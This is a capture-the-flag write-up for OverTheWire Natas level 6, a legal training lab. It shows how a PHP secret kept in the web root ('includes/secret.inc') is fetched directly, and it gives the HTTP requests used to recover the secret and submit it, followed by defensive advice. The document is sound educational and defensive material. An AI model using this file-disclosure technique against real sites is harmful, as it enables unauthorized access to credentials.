


# Natas Level 6 → 7

**Vulnerability:** Information Disclosure through Exposed Source Code and Hardcoded Secret
**Difficulty:** Easy
**Tools Used:** Browser, Source Code Viewer
**OWASP Category:** A05 – Security Misconfiguration

---

## What the level gives you

The page presents a simple form requesting a secret value.

A "View sourcecode" link is provided, allowing inspection of the underlying PHP implementation.

The objective is to discover the correct secret and retrieve the password for the next level.

---

## Source code analysis

The provided source code contains the following logic:

```php
include "includes/secret.inc";

if(array_key_exists("submit", $_POST)) {
    if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
}
```

### Analysis

```php
include "includes/secret.inc";
```

The application imports a separate file containing sensitive data.

The developer likely assumed that storing the secret in another file would prevent users from accessing it.

```php
if($secret == $_POST['secret'])
```

The application directly compares user input against a secret value stored on the server.

The security of the entire challenge depends on the secrecy of `$secret`.

The critical mistake is that the included file is stored within the web-accessible directory structure.

Because the file path is visible in the source code, an attacker can request it directly.

---

## Approach

My first step was reviewing the PHP source code exposed by the application.

The source immediately revealed that the secret was not generated dynamically and instead came from an included file named `includes/secret.inc`.

Rather than attempting to guess the secret value, I investigated whether the referenced file could be accessed directly through the browser.

The file was publicly reachable and disclosed the value stored in the `$secret` variable.

Once the secret was recovered, I submitted it through the form and obtained the password for the next level.

The vulnerability was not in the comparison itself but in the exposure of sensitive implementation details that revealed where the secret was stored.

---

## Exploitation

### Review source code

```http
GET /index-source.html HTTP/1.1
Host: natas6.natas.labs.overthewire.org
```

Relevant code:

```php
include "includes/secret.inc";
```

### Request the included file

```http
GET /includes/secret.inc HTTP/1.1
Host: natas6.natas.labs.overthewire.org
```

Response:

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

### Submit recovered secret

```http
POST / HTTP/1.1
Host: natas6.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

secret=FOEIUWGHFEEUHOFUOIU&submit=Submit+Query
```

Response:

```text
Access granted.
The password for natas7 is ...
```

---

## Screenshot

### Exposed secret file



### Password retrieval



---

## Real-world relevance

This vulnerability falls under Security Misconfiguration and Information Disclosure.

Applications frequently expose backup files, configuration files, development artifacts, source code repositories, or internal resources that reveal credentials, API keys, database passwords, and authentication secrets.

During web application assessments, reviewing exposed files and implementation details is often one of the fastest ways to gain unauthorized access without exploiting complex vulnerabilities.

---

## Defender's perspective

Sensitive files should never be placed inside web-accessible directories.

Configuration files containing secrets should be stored outside the document root and loaded only by the application runtime.

Developers should implement proper access controls, disable directory exposure, and perform regular reviews to identify accidentally exposed files.

Security scanning tools and CI/CD validation checks can help detect publicly accessible secrets before deployment.

---

## What I'd do differently

If direct file access had been blocked, I would have enumerated the application structure further to identify alternative disclosure points such as backup files, temporary files, or version control artifacts.